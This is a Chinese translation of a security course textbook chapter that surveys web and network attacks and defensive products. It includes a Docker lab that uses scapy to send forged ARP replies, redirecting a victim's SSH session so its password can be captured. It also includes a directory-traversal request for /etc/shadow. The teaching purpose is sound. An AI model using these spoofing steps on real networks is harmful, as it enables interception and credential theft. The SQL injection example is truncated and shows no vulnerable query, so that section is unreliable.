跨站点请求伪造（CSRF）涉及使用受害者已验证的会话，在不属于该会话的请求中进行操作。想象一下，你已登录 Twitter。攻击者向你发送一个 GMail 中的表单链接，当点击时，它会发布一条推文，内容为 "I’m a CSRF victim." 假设 Twitter 接受表单提交，你现在将在时间线上有一条推文，内容为 "I’m a CSRF victim."

这可能是最良性的场景，你可以想象在在线银行应用程序中情况会糟糕得多。解决方案是网站（在此例中为 Twitter）使用 CSRF 令牌（它确实如此）。当生成表单时，会将一个随机值作为隐藏输入包含在内。该随机隐藏输入就是 CSRF 令牌。当提交时，如果提交的 CSRF 令牌与为表单创建的令牌（只有有效网站知道）不匹配，则不接受提交。

CSRF 令牌是 Web 应用程序需要主动安全而非安全设计的又一个示例。大多数 Web 应用都在使用它们，但开发人员很容易忘记。

### 5.5.3. SSRF

Web 系统通常与内部服务器通信以检索信息。这些可能是 API 服务器、数据库或消息服务器。如果攻击者能诱骗 Web 服务器将恶意请求传递给其内部服务器，攻击者就可以滥用系统的内部信任。这被称为服务器端请求伪造（SSRF）。再次，这种攻击通过输入验证来缓解，输入验证需要包含在应用程序中。

### 5.5.4. 会话劫持

会话劫持可能涉及其他妥协方法，但最终目标是“窃取”受害者与另一台服务器之间的会话。想象以下场景：一个人登录到他们的个人银行网站，该网站向他们发放一个 Cookie，证明他们已通过身份验证。不良行为者正在通过 XSS 漏洞监控连接，该漏洞将所有连接 Cookie 转发给他们。不良行为者使用发放的 Cookie，从用户的银行账户向不良行为者的银行账户进行转账。

取决于所使用的方法，会话劫持可以通过使用更好的会话密钥或要求使用传输层安全性（TLS）来连接来防止。在上述场景中，防止会话劫持的唯一方法是修复初始 XSS 漏洞。

### 5.5.5. SQL 注入

如 SSRF 部分中所述，几乎所有 Web 系统都由内部运行的其他服务器支持。最常见的场景之一是拥有一个 Web 服务器，它连接到内部数据库。关系数据库使用结构化查询语言（SQL），因此 Web 应用程序在其常规操作期间可能会生成许多不同的 SQL 查询。如果用户输入直接放入查询中，就有可能使结果以非预期的方式运行，或从数据库中获取秘密信息。

查看以下 PHP 代码：

```
$userName = $_POST['user_name']
```


`$pw = $_POST['password']`


### 5.5.6. XML 注入

XML 代表可扩展标记语言，通常用于传输消息。XML 可以是 Web 系统基础设施的重要组成部分，因此如果允许未经清理的用户输入生成系统中使用的 XML，则可能会出现许多问题。利用 XML 注入，攻击者可能能够检索秘密文件或创建管理员帐户。XML 注入可以通过输入验证或可能禁用所使用框架中的外部实体解析来缓解。

### 5.5.7. LDAP 注入

最后，轻量级目录访问协议 (LDAP) 通常用于存储有关用户的信息。因此，它可以在许多 Web 应用程序后台找到。LDAP 也以类似于 SQL 的方式支持复杂查询。未经清理的用户输入可能导致 LDAP 查询产生意外结果。

### 5.5.8. 目录遍历

设计不良的 Web 服务器可能会受到目录遍历攻击。请回顾，Web 服务器旨在从特定目录（例如 `/var/www`）提供静态内容。现在假设攻击者提交了针对 `http://www.example.com/../../etc/shadow` 的 GET 请求。Web 服务器可能实际上会向上跳转两个目录并提供该文件。

可以通过文件权限、访问控制和过滤传入请求来解决此问题。需要注意的是，在 HTTP 请求中指定路径的方式不止一种，包括使用 URL 编码，因此必须清理所有可能的恶意输入。

# 5.5.9. URL 劫持/拼写劫持

一种不幸常见的广泛攻击是购买与非常流行的域名名称相似的域名。当用户输入错误的热门域名时，他们最终会进入恶意行为者的网站。例如，想象有人注册了 `gooogle.com`（注意三个 o）。他们可能会从输入错误 `google` 的人那里获得大量流量。

这些网站可用于广告收入、网络钓鱼凭据，甚至可能用于分发恶意软件。几种浏览器实施的一种缓解措施是维护恶意网站列表，并在用户访问之前警告用户。

### 5.5.10. 域名劫持

域名在一定时间后会过期，注册人可能忘记续费。在这些罕见情况下，攻击者可能实际上会获得热门域名（例如 `google.com`）的控制权，并将流量路由到其网站。恶意活动与拼写劫持相同，但攻击者不需要依赖用户犯错。

还可以通过使用被盗/泄露的凭据登录域名注册系统来劫持域名。在此场景中，攻击者仍然可以修改记录以指向其服务器，但不需要依赖公司忘记续费。

### 5.5.11. 区域传输攻击

关于域名系统，区域传输攻击可能会泄露有关域名的敏感信息。DNS 是一种分布式系统，用于将域名解析为 IP 地址。由于系统的分布式特性，协议被构建用于让单个域名由多个服务器提供服务。这些服务器使用 DNS 区域传输相互传递信息。

通常这些通信应该是内部的，因为它们可能会泄露有关区域的宝贵信息。不幸的是，配置不当的 DNS 服务器可能会公开宣传其区域传输。在这种情况下，攻击者可以在攻击的侦察阶段使用泄露的信息。

### 5.5.12. 点击劫持

网站可能以这种方式设计，即界面对用户来说令人困惑，他们无意中点击了广告或恶意链接。这在流媒体网站、种子跟踪器和成人网站等低完整性网站上很常见。这通常因广告筛选不佳，甚至故意制作看起来与内容相似的广告而变得复杂。

## 5.6. 结果

### 5.6.1. 远程代码执行 (RCE)

攻击最危险的结果之一是远程或任意代码执行。RCE 使攻击者能够在受攻击的机器上执行任何他们想要的指令。通常，攻击者会启动一个具有管理权限的 shell，以便他们可以做任何他们想做的事情。想象一下 SSH 登录到远程 Linux 机器并将权限提升到 root。这基本上就是 RCE 可能带来的权力类型。攻击者还可以使用 RCE 通过导致程序终止来攻击计算资源的可用性。在这种情况下，RCE 被用作拒绝服务 (DoS) 攻击的一部分。

### 5.6.2. 权限提升

没有通往 root 的电梯，你必须使用漏洞利用。

~ 匿名

权限提升涉及通过非预期方式获得对受保护资源的访问权限。一个示例是 CVE-2021-4034，这是最近在 Linux `pkexec` 命令中发现的本地权限提升漏洞。`pkexec` 以提升的权限运行且不安全地解析命令行参数。因此，它可以被利用以给普通用户提供 root shell。这将是本地垂直权限提升的一个示例。

权限提升通常分为两类：水平和垂直。水平权限提升提供对资源的类似访问权限，即从一个用户帐户移动到另一个用户帐户。垂直权限提升提供更高级别的访问权限，即从用户帐户移动到管理员帐户。实现权限提升的五种主要方式是凭据利用、漏洞/漏洞利用、配置错误、恶意软件和社会工程学。

### 5.6.3. 拒绝服务 (DoS)

拒绝服务攻击 (DoS) 试图通过用请求淹没系统来阻止系统工作。分布式拒绝服务攻击 (DDoS) 通过利用许多不同的机器做同样的事情。通常，DDoS 攻击的攻击节点是僵尸网络的成员，这些机器之前已被利用并处于攻击者的控制之下。

DoS 攻击可以采取多种形式，包括：

SYN 洪水攻击：恶意行为者可以发送多个 SYN 数据包以启动 TCP 三次握手。SYN 数据包易于发送，但可能会导致响应它们的服务器分配大量资源。由于资源分配的不对称性，这使得 SYN 数据包特别适合用于 DoS 攻击。SYN Cookie 可用于帮助防止这种类型的攻击。

ICMP 洪水攻击：通常称为 ping，ICMP 回显请求可用于淹没服务器。尤其是当从多个来源发送时。解决方案通常是在服务器上限制 ICMP 数据包的速率。

缓冲区溢出/漏洞利用：设计不良的软件在接收到意外数据时可能会失败。这可能简单到发送的数据超过缓冲区能容纳的量，或者将发往 Windows 系统 139 端口的数据包的紧急指针 (URG) 设置为开启。

远程 Shell

希望你通过完成实验已经体验过，Linux 系统传统上拥有一个强大的 Shell 系统，它使用文本命令来控制操作系统。通过 Shell，你可以创建、读取、更新或删除文件，建立网络连接，配置内核参数，安装软件包等。事实上，所有现代操作系统都有可用于控制它们的 Shell。在 Windows 机器上，拥有以管理员身份运行的 PowerShell 访问权限，攻击者就可以完全控制系统。攻击的结果通常是能够远程与受攻击机器上的 Shell 进行交互。

在此场景中，我们说受害者正在运行远程 Shell。远程 Shell 可以在受害者机器上后台运行，监听端口等待攻击者连接，但通常受攻击的机器可能没有攻击者可以用来连接的外部 IP。在这些情况下，会使用反向 Shell。反向 Shell 从受害者向攻击者发起连接，并从内部建立连接。这与大多数设备和互联网之间的防火墙/NAT 路由器更兼容。

无论哪种情况，通过远程连接拥有机器的特权 Shell 访问权限都允许攻击者基本上做任何他们想做的事情。为此，许多工具应运而生，以提供远程 Shell 访问权限。机器可能已经安装了远程 Shell 工具，例如 SSH 服务器。如果没有，Netcat 可以与任何可执行文件一起用于通过网络提供对其的访问。`metasploit`（一个非常流行的渗透测试框架）带有许多有效载荷，其中大多数是各种类型的 Shell。还存在一些程序，可以通过 ICMP、Discord、IRC，甚至 DNS 运行 Shell！

# 5.7. 实验：使用 Scapy 进行中间人攻击

在此实验中，我们将使用一个假 SSH 服务器 `sshesame` 和一个交互式数据包操纵程序 `scapy`，来干扰受害者和服务器之间的正在进行的 SSH 会话，将自己定位在流量中间，并捕获受害者使用的用户名和密码。

| 名称 | IP 地址 |
|------|------------|
| server | 172.20.0.5 |
| victim | 172.20.0.6 |
| attacker | 172.20.0.7 |

在此实验中，我们的 IP 地址是静态配置的，并且攻击者已知。还假设攻击者在本地网络上。最后，受害者配置不当，会忽略主机密钥的更改。这并不完全不合理，因为许多用户只是忽略警告，并在提示时清除 `known_hosts` 文件。

首先下载 `scapy.zip` 文件，其中包含我们将使用的 Docker Compose 配置。将其解压缩到你有写权限的目录中。此实验将要求我们使用三个终端窗口/选项卡：一个用于 `docker-compose up` 命令，它将显示后台运行的所有内容的输出；一个用于受害者，它将显示与服务器的 SSH 会话；一个用于攻击者，我们将使用它来发起攻击。

打开三个终端，并在每个终端中 `cd` 进入你解压缩实验 zip 文件的目录。你所在的目录中应该有一个 `docker-compose.yml` 文件和 `server`、`victim` 和 `attacker` 目录。

在第一个终端中运行 `docker-compose up` 命令来构建镜像并运行容器：

```
Listing 1. docker-compose up

PS C:\Users\rxt1077\it230\labs\scapy> docker-compose up
```


Creating network `scapy_testnet` with the default driver

Creating `scapy_server_1` ... done

Creating `scapy_victim_1` ... done

Creating `scapy_attacker_1` ... done

Attaching to `scapy_victim_1`, `scapy_server_1`, `scapy_attacker_1`

`server_1` | > Starting SSHD

`server_1` | >> Generating new host keys

`scapy_victim_1` exited with code 0

`attacker_1` | INFO 2021/10/07 13:56:45 No host keys configured, using keys at "/root/.local/share/sshesame"

`attacker_1` | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_rsa_key" not found, generating it

`attacker_1` | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ecdsa_key" not found, generating it

`attacker_1` | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ed25519_key" not found, generating it

`attacker_1` | INFO 2021/10/07 13:56:45 Listening on `[::]:22` ①

`server_1` | ssh-keygen: generating new host keys: RSA DSA ECDSA ED25519

`server_1` | >>> Fingerprints for dsa host key

`server_1` | 1024 MD5:a5:e6:e9:38:d2:2e:88:fd:f0:aa:a8:05:07:35:5f:18 root@a010fe3c2f3c (DSA)

`server_1` | 1024 SHA256:NM7DONpt1doZp4e6WV+6WVVr+KUrh9luUSRcAhnzdyw root@a010fe3c2f3c (DSA)

`server_1` | 1024 SHA512:LHfFdSk1XiAKQArH0CW+RkaKv5GgovPCH7UIQ+P4T2LbgGpCBP5aGA1V3oriYbTZWuS9TlUgDbEfTBq19AV/cA root@a010fe3c2f3c (DSA)

`server_1` | >>> Fingerprints for rsa host key

`server_1` | 3072 MD5:74:44:b6:a2:74:b9:7e:1b:ba:3d:27:b8:19:3a:48:df root@a010fe3c2f3c (RSA)

`server_1` | 3072 SHA256:mubm9mLNrdNDk5fyj0dghDBIbbwcVKXo23Qdv61/S/c root@a010fe3c2f3c (RSA)

`server_1` | 3072 SHA512:JFQhS6trY7sNqRSwZ+t0uyBb5ddNh9qSLtBrMaa5G7xWzKHpxCuKBSDbvLk4W9JKeQftTU4293UDV9vqCcf/6w root@a010fe3c2f3c (RSA)

`server_1` | >>> Fingerprints for ecdsa host key

`server_1` | 256 MD5:15:75:5f:9b:72:7c:f0:13:ea:0d:b4:47:b7:62:69:63 root@a010fe3c2f3c (ECDSA)

`server_1` | 256 SHA256:4p/Afp/8C2tHn7AePdS7OHCgPxfBamdaLIUg4IJ7xx4 root@a010fe3c2f3c (ECDSA)

`server_1` | 256 SHA512:NnbevqBXFkGQWIirdFsLPnX85q7q/1Y7E4i+BLHLqE3cg2aqkduBJsssyr9+G7bSvq7txvjl9SRmyRAzuDT7DQ root@a010fe3c2f3c (ECDSA)

`server_1` | >>> Fingerprints for ed25519 host key

`server_1` | 256 MD5:ad:00:61:26:4d:a0:07:be:6b:8e:91:bd:f0:65:e6:14 root@a010fe3c2f3c (ED25519)

`server_1` | 256 SHA256:Vl7jQulDsONglP1xbSN+J8nSfCaIER40rHhgy7z/BYg root@a010fe3c2f3c (ED25519)

`server_1` | 256 SHA512:WkmvOWe6oaZ/qE1ZiA0rZAjn9H+hCDxI8NHpsjRNCalK/CgVV9+VhkzHgRTKfKTqQeE0y/Zz2GaEJGv/sapCHg root@a010fe3c2f3c (ED25519)

`server_1` | WARNING: No SSH authorized_keys found!

`server_1` | >> Unlocking root account

`server_1` | WARNING: password authentication enabled.

`server_1` | WARNING: password authentication for root user enabled.

`server_1` | >> Running: /etc/entrypoint.d/changepw.sh

`server_1` | Running /usr/sbin/sshd -D -e -f /etc/ssh/sshd_config

`server_1` | Server listening on 0.0.0.0 port 22. ②

`server_1` | Server listening on :: port 22. ¶  ¶ ① Notice that attacker has a fake SSH server running in the background② Notice that server has a legitimate SSH server running in the background ¶  ¶ If you receive the error failed to create network scapy_testnet: Error response from daemon: Pool overlaps with other one on this address space check to see if you have other containers running and stop them. You may also need to run docker network prune to remove the old networks Docker built. ¶  ¶ In the second terminal run docker-compose run victim bash and then from the prompt we’ll SSH to server using the password "password": ¶  ¶  ¶ Listing 2. victim ¶  ¶ PS C:\Users\rxt1077\it230\labs\scapy> docker-compose run victim bash

Creating `scapy_victim_run` ... done

bash-5.0# ssh server

Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.

root@server's password: ①

You are now logged into 'server' (presumably from 'victim') via SSH for this assignment.

Leave this connection open while you experiment with scapy from 'attacker'.

bf9ebe42a108:~# ¶  ¶ ① The password is "password". It will not be echoed to the screen as you type it. ¶  ¶ If for some reason the password will not work and you are sure you are typing it in correctly you can run the following command docker compose exec server passwd (note it’s passwd and not password). Type in the password twice and it will be reset to whatever you typed. What you type will not be echoed to the screen. You should now be able to ssh from victim to server with the password you typed in. ¶  ¶ In the third terminal we’ll start by executing (recall that at this point it’s already running sshesame in the background) a BASH shell on attacker and configuring it to accept packets not only for its own IP address, but also for the server’s IP address. Once traffic is routed to us, this will allow attacker to also respond to packets destined for 172.20.0.5. ¶  ¶  ¶ Listing 3. attacker ¶  ¶ PS C:\Users\rxt1077\it230\labs\scapy> docker-compose exec attacker bash

root@5195de3d330c:/# ip addr add 172.20.0.5 dev eth0

root@5195de3d330c:/# ip addr

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000

link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00

inet 127.0.0.1/8 scope host lo

valid_lft forever preferred_lft forever

2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000

link/ipip 0.0.0.0 brd 0.0.0.0

3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000

link/sit 0.0.0.0 brd 0.0.0.0

347: eth0@if348: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default

link/ether 02:42:ac:14:00:07 brd ff:ff:ff:ff:ff:ff link-netnsid 0

inet 172.20.0.7/24 brd 172.20.0.255 scope global eth0 ①

valid_lft forever preferred_lft forever

inet 172.20.0.5/32 scope global eth0 ②

valid_lft forever preferred_lft forever ¶  ¶ ① This is the IP we started with② This is an additional IP that attacker believes it has ¶ Now that the attacker system is configured, we’ll start up scapy interactively: ¶  ¶  ¶ Listing 4. attacker ¶  ¶ root@5195de3d330c:/# scapy

INFO: Can't import matplotlib. Won't be able to plot.

INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

INFO: No IPv6 support in kernel

INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)

INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.

WARNING: IPython not available. Using standard Python shell instead.

AutoCompletion, History are disabled.

aSPY//YASa

apyyyyCY//////////YCa       |

sY//////YSpcs  scpCY//Pp     | Welcome to Scapy

ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.5

AYAsAYYYYYYYY///Ps              cY//S   |

pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy

SPPPP///a          pP///AC//Y   |

A//A            cyP////C   | Have fun!

p///Ac            sC///a   |

P////YCpc           A//A   | To craft a packet, you have to be a

scccccp///pSP///p          p//Y   | packet, and learn how to swim in

sY/////////y  caa           S//P   | the wires and in the waves.

cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme

sY/PsY////YCc          aC//Yp    |

sc  sccaCY//PCypaapyCP//YSs

spCPY//////YPSps

ccaacs

>>> ¶  ¶ You’ll notice that scapy’s prompt is >>>, just like python because it is python. Since we’re working in python, let’s make our lives easier by defining a few simple variables: ¶  ¶  ¶ Listing 5. attacker ¶  ¶ >>> server_ip = "172.20.0.5" ①

>>> victim_ip = "172.20.0.6" ¶  ¶ ① IPv4 addresses are strings in scapy ¶ Now let’s see how scapy allows us to build packets. We’ll make an Ethernet frame, with an IP packet inside it, with an ICMP echo request in that, with the data being set to our name: ¶  ¶  ¶ Listing 6. attacker ¶  ¶ >>> ping = Ether()/IP(dst=server_ip)/ICMP()/"Ryan Tolboom" ①

>>> ping.show() ②

###[ Ethernet ]###

dst       = 02:42:ac:14:00:05

src       = 02:42:ac:14:00:07


type      = IPv4

### [ IP ] ###

version   = 4

ihl       = None

tos       = 0x0

len       = None

id        = 1

flags     =

frag      = 0

ttl       = 64

proto     = icmp

chksum    = None

src       = 172.20.0.7

dst       = 172.20.0.5

\\options   \\

### [ ICMP ] ###

type      = echo-request

code      = 0

chksum    = None

id        = 0x0

seq       = 0x0

unused    = ''

### [ Raw ] ###

load      = 'Ryan Tolboom'

>>> result = srp1(ping) ③

Begin emission:

Finished sending 1 packets.

.\*

Received 2 packets, got 1 answers, remaining 0 packets

>>> result.show()

### [ Ethernet ] ###

dst       = 02:42:ac:14:00:07

src       = 02:42:ac:14:00:05

type      = IPv4

### [ IP ] ###

version   = 4

ihl       = 5

tos       = 0x0

len       = 40

id        = 62086

flags     =

frag      = 0

ttl       = 64

proto     = icmp

chksum    = 0x301a

src       = 172.20.0.5

dst       = 172.20.0.7

\\options   \\

### [ ICMP ] ###

type      = echo-reply

code      = 0

chksum    = 0xea7a

id        = 0x0

seq       = 0x0

unused    = ''

### [ Raw ] ###

load      = 'Ryan Tolboom'

>>> server\_mac = result\[0\]\[0\].src

>>> server\_mac

'02:42:ac:14:00:05' ¶  ¶ ① Scapy 使用 '/' 运算符来嵌套协议。这是我的名字，封装在 ICMP 数据包中，再封装在 IP 数据包中，最后封装在以太网帧中。请务必使用你自己的名字！② show() 命令会详细打印数据包③ srp1() 函数在第二层发送并接收一个数据包 ¶ 注意我们如何使用它来捕获服务器的 MAC 地址，并将其保存在 server\_mac 变量中。 ¶  ¶ 此时请拍摄你的 scapy 会话截图，显示你已使用自己的名字完成了 ICMP 回显请求/响应。 ¶  ¶ 我们还可以使用 ARP "who-has" 请求在第二层确定 MAC 地址。让我们构建并发送一个带有 ARP "who-has" 请求的广播以太网帧，目标是受害者的 IP 地址。结果将告诉我们受害者的 MAC 地址： ¶  ¶  ¶ 清单 7. 攻击者 ¶  ¶ >>> whohas = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=victim\_ip)

>>> result = srp1(whohas)

Begin emission:

Finished sending 1 packets.

\*

Received 1 packets, got 1 answers, remaining 0 packets

>>> result.show()

### [ Ethernet ] ###

dst       = 02:42:ac:14:00:07

src       = 02:42:ac:14:00:06 ①

type      = ARP

### [ ARP ] ###

hwtype    = 0x1

ptype     = IPv4

hwlen     = 6

plen      = 4

op        = is-at

hwsrc     = 02:42:ac:14:00:06

psrc      = 172.20.0.6

hwdst     = 02:42:ac:14:00:07

pdst      = 172.20.0.7

>>> victim\_mac = result\[0\].src ¶  ¶ ① 这是受害者的 MAC 地址，但你的可能不同！ ¶ 这是 ARP 交互应有的工作方式。我们广播询问应该使用哪个 MAC 地址来访问某个 IP，然后会收到合法拥有该 MAC 和 IP 的人的响应。 ¶ 我们拥有创建 ARP 数据包所需的一切，以便当受害者尝试访问服务器 IP 时，流量会被发送到我们这里： ¶  ¶  ¶ 清单 8. 攻击者 ¶  ¶ >>> victim\_ip, victim\_mac, server\_ip, server\_mac

('172.20.0.6', '02:42:ac:14:00:06', '172.20.0.5', '02:42:ac:14:00:05') ¶  ¶ 现在让我们构建并查看一个恶意 ARP 数据包： ¶  ¶  ¶ 清单 9. 攻击者 ¶  ¶ >>> bad\_arp = ARP(op=2, pdst=victim\_ip, psrc=server\_ip, hwdst=victim\_mac)

>>> bad\_arp

<ARP  op=is-at psrc=172.20.0.5 hwdst=02:42:ac:14:00:06 pdst=172.20.0.6 |> ¶  ¶ 这个数据包伪装成来自服务器，它在 IP 和 MAC 上都指向受害者，但用于发送它的 MAC 地址是我们的（默认情况下，我们不指定 hwsrc）。这意味着受害者会更新其 ARP 缓存，使得发往服务器的帧会被发送到攻击者。这实际上将原本从受害者发往服务器的所有第二层流量重定向了。 ¶ 继续发送该 ARP 数据包： ¶  ¶  ¶ 清单 10. 攻击者 ¶  ¶ >>> send(bad\_arp)

.

Sent 1 packets. ¶  ¶ 现在回到受害者终端（其中有到服务器的 SSH 连接），尝试输入一些内容。一旦 SSH 需要发送数据，你就会收到“断开的管道”错误，连接将会断开。面对这样的问题，你认为大多数用户会怎么做？可能会尝试重新连接，让我们也试一下。记住密码是 "password"。 ¶  ¶  ¶ 清单 11. 受害者 ¶  ¶ 你现在已通过 SSH 登录到 'server'（ presumably 从 'victim'）以完成此作业。

在你从 'attacker' 尝试 scapy 期间，保持此连接打开。

bf9ebe42a108:~# client\_loop: send disconnect: Broken pipe ①

bash-5.0# ssh server

Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.

root@server's password:


## 5.8. 复习问题

MAC 地址欺骗允许攻击者做什么？可以采取哪些措施来降低这种风险？

水平权限提升和垂直权限提升有什么区别？分别举例说明。

什么是 XSS，它如何用于攻击？

# 6. 安全解决方案

为了帮助应对安全漏洞，许多不同的供应商提供安全解决方案。这些解决方案可能是旨在帮助缓解安全威胁的硬件或软件。安全解决方案可以在内部开发，由第三方定制开发，也可以外包并作为服务提供。在评估解决方案时，制定计划并了解该产品的功能和可能存在的陷阱非常重要。

## 6.1. 误报 / 漏报

当安全解决方案检测到威胁，但实际上不存在威胁时，这就是误报。取决于解决方案的复杂程度，它可能会使用一组规则、妥协指标，甚至可能使用人工智能来触发其警报系统。在解决方案产生大量误报的情况下，团队逐一检查每个警报会非常疲惫。最终，团队会被训练成忽略警报，这使得安全解决方案变得毫无用处。

降低系统误报率的关键是更好地调整用于触发警报的规则集。安全团队可能会花时间确定事件基线，并寻找与实际攻击相对应的异常情况。然后可以利用这些信息来构建更好的检测系统。

### Webroot 杀毒软件

2017 年，一款流行的杀毒服务创建了一条错误规则，将某些 Windows 操作系统文件识别为威胁。该杀毒解决方案将这些文件隔离，而这些文件对机器的运行至关重要。结果是机器无法使用。

长达 13 分钟，Webroot 将此规则分发到其杀毒软件中，导致无数机器停止运行。幸运的是，Webroot 能够快速识别问题并发送更新，该更新本可以让机器自动修复问题。不幸的是，分发更新的基础设施很快就超载了。

当安全解决方案未能识别威胁时，这被称为漏报。虽然没有任何解决方案可以 100% 有效，但漏报会削弱人们对产品的信心。漏报可能由技术娴熟的 SOC 团队通过密切监控正在发生的事情来解决。也可以通过分层安全（Layered Security）来解决漏报，这是一个我们将在下一节介绍的概念。

## 6.2. 分层安全

鉴于单一安全解决方案永远无法 100% 有效，因此分层处理安全并使用多个系统是合理的。解决方案之间通常存在大量重叠，虽然在其他领域这可能看起来效率低下，但在网络安全中，我们将其视为一种好处。通过使用多个解决方案，有时称为多层安全或纵深防御，你可以构建更强大的防护来应对漏洞。

让我们看一个例子，了解分层安全如何帮助减轻现实世界攻击的影响。假设 SOC 正在支持自托管机器上的 Web 应用程序。恶意行为者希望从 Web 应用程序中窃取数据。他们首先测试是否存在多种 SQL 注入攻击，看是否有任何结果。

设计良好的 Web 应用程序应该清理其输入，并可能防止查询到达数据库。同样，警报团队可能会注意到 SQL 查询突然激增，远超应用程序的常规基线。入侵检测系统（IDS）可能会将查询标记为已知的 SQL 注入攻击。假设攻击绕过了应用程序、团队和 IDS，那么数据库用户可能配置了最小权限原则，查询将因缺乏权限而无法执行。

正如你所看到的，任何一层都可能失效，但通过拥有多个层，攻击发生的机会将大大降低。

## 6.3. 网络解决方案

有许多产品可用于处理网络流量。它们通常被营销为独立设备、安装在内部设备上的软件，或者是将流量路由到外部设备的订阅服务。在云计算时代，网络安全即服务正变得越来越流行。

### 6.3.1. 防火墙

防火墙是一种服务/软件/设备，用于阻止不需要的流量并允许需要的流量。通常，防火墙是私有网络和 Internet 之间的屏障。

像 `nftables` 这样的软件可以用于在 Linux 路由器上为许多内部客户端构建防火墙。内部客户端也可以运行基于主机的防火墙，例如 Windows Defender 防火墙。最后，许多供应商（包括 Palo Alto 和 Cisco）提供插件式防火墙设备的硬件解决方案。可以使用这些解决方案的任何组合。

防火墙通常采用关于哪些数据包可以进入以及如何处理它们的规则。例如，防火墙可能有一条规则，允许来自外部主机在端口 22 上的数据包。这将允许 SSH 连接。同样，防火墙可能有一条规则来跟踪内部到外部的连接请求并执行网络地址转换（`NAT`）。在 IPv4 网络上，防火墙通常也会执行 `NAT`。

下一代防火墙（`NGFW`）执行标准防火墙的相同功能，但还采用集成的入侵防御系统（`IPS`）来缓解威胁。防火墙是执行这些操作的完美位置，因为它可以轻松关闭连接。`NGFW` 经常宣传人工智能威胁监控和自动威胁情报更新（通常是更新攻击签名）。`NGFW` 也可以轻松在 Linux 设备上构建，方法是将 `IPS` 与 `netfilter` 防火墙结合使用。

网络基础设施还可以使用防火墙外的一个特殊空间，称为非军事区（`DMZ`）。需要直接连接到 Internet 的服务器通常被放置在 `DMZ` 中，这样它们就不必处理限制性的防火墙规则。这些服务器可用于检测恶意活动、监控传入流量，或处理基本请求，例如提供静态网页。

世界上最大的防火墙是中国的防火长城，始于 1998 年，旨在防止外部影响进入中国。它是一个用于阻止 IP、劫持 DNS 查询、限制流量并执行中间人（MitM）解密的系统。防火长城由执行数据包检查和内容过滤的代理和防火墙组成。VPN 经常在中国被用来绕过防火长城，而防火长城也在不断更新，以尝试检测并关闭此类流量。

### 6.3.2. 代理

代理通常位于用户和外部网络之间。代理可以代表用户接收和发送请求，从而完全控制进出的流量。

代理可用于缓存、访问控制、URL 过滤、内容扫描，甚至数据包检查。代理解决方案可以是显式的或透明的，并由许多公司提供，包括 McAfee、Fortigate、Netsparker 和 Palo Alto。代理的典型应用是在学区网络上过滤露骨内容。

代理还可以分为正向和反向配置。正向代理将来自私有或内部网络的请求传递到 Internet。正向代理可以通过缓存加快本地请求，并验证是否应执行该请求。正向代理与标准防火墙和网络地址转换（`NAT`）互操作。

反向代理接收来自外部源的请求并将其传递给内部服务。这有助于防止客户端直接访问内部服务。反向代理也可以利用缓存并验证请求。反向代理还可以配置为与防火墙协同工作。与过去通常将服务器放置在防火墙外的非军事区（`DMZ`）中不同，现在更常见的是使用反向代理来访问该服务器。

### 6.3.3. 负载均衡器

反向代理的常见应用是充当流量的负载均衡器。负载均衡器将工作（以外部客户端请求的形式）分配给内部资源，通常是服务器。

例如，如果一家公司有四台服务器支持 Web 应用程序，他们可以使用反向代理负载均衡器，该负载均衡器接收来自客户端的请求并将该请求传递给四台内部服务器之一。使用不同的指标来确定服务器的利用情况，包括最少使用（轮询）、加权、最少活动连接数。负载均衡器优化带宽并提高可用性。

### 6.3.4. VPN

虚拟专用网络（`VPN`）用于加密两个网络之间或客户端与网络之间的 Internet 流量。`VPN` 已成为连接远程办公室或连接远程员工的标准程序。鉴于在家办公的增长，几乎所有用户都熟悉什么是 `VPN` 以及它的作用。

站点到站点 `VPN` 通常用于连接办公室。这种 `VPN` 是永久开启的。例如，连接两个大学校园：NJIT 纽瓦克分校和 NJIT 泽西市分校。在这种情况下，两个校园的用户都期望随时能够安全地连接到对面校园的服务。流量经过加密并通过 Internet 传输。

远程访问 `VPN` 由个人用于连接到安全网络。这种 `VPN` 通常通过 Cisco AnyConnect 等应用程序启动。当应用程序运行时，用户能够像在办公室一样安全地访问内部资源。

许多供应商提供 `VPN` 产品，包括 Cisco、Citrix、Fortinet、Palo Alto 和 Checkpoint。还有许多开源选项可用于构建 `VPN`，包括 OpenVPN、WireGuard 和 IPsec。

### 6.3.5. TAP

有时，网络或安全工程师需要监控特定网络段上发生的情况。在这种情况下，可以使用网络终端访问点（`TAP`）。`TAP` 会创建网络流量的副本，并将其转发到交换机或路由器上的特定端口。

## 6.4. EDR

端点检测与响应（`EDR`）用于保护端点：服务器、工作站、桌面、移动设备等。`EDR` 通常实现为基于主机的事件预防系统（`HBIPS`），即运行在端点上以监控和收集数据的软件。

这些系统通常会监控妥协指标，扫描恶意软件，并可根据需要隔离或关闭端点。公司硬件对任何企业来说都是一项重大投资，而 `EDR` 确保该投资得到保护。存在许多 `EDR` 系统，包括 FireEye、SEP 和 CrowdStrike。

## 6.5. 数据防泄漏

数据防泄漏（`DLP`）解决方案旨在防止敏感数据的窃取。这可能包括个人身份信息（`PI`）、医疗记录、社会安全号码（`SSNs`）、信用卡号码等。通常，`DLP` 要么在端点和服务器上运行（静态数据），要么在网络上运行（动态数据）。

